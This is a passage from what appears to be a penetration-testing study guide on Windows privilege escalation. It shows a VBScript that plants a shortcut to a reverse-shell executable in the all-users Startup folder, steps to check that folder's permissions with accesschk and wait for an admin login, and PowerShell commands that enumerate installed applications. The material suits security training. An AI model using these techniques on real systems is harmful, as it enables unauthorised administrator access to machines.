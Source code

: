### Startup Apps

By setting shortcuts to programs in a certain directory, each user can determine which apps start when they log in. For apps that should start for all users, Windows additionally includes a startup directory:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

We can use our reverse shell executable to escalate privileges when an admin logs in **if we can create files in this directory**.

It's important to remember that shortcut files (.lnk) must be used. To make a shortcut file, use the following VBScript:

```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\Users\Public\reverse.exe"
oLink.Save
```

#### Startup Apps Privilege Escalation

1.  Check the permissions on the StartUp directory with accesschk.exe:

    ```
    .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    ```
2. The `BUILTIN\Users` group must have write access to this directory.
3. Using VBScript, create the file CreateShortcut.vbs. If necessary, change the file paths.
4.  Using cscript, run the script:

    ```
    > cscript CreateShortcut.vbs
    ```
5. Start a listener on Kali, then an admin user must log in to trigger the exploit.

### Installed Applications

The majority of privilege escalations involving installed apps are due to misconfigurations. Even so, some privilege escalation is caused through memory corruption exploits, therefore knowing how to identify installed applications and known vulnerabilities is still necessary.

#### Install Applications Commands

Enumerate installed applications/programs:

```powershell
ls -force "C:\Program Files (x86)\"
ls -force "C:\Program Files"
ls -force "C:\Program Files (x86)\" -recurse
ls -force "C:\Program Files" -recurse

# Directories only
ls -force "C:\Program Files" -recurse -attributes directory
```

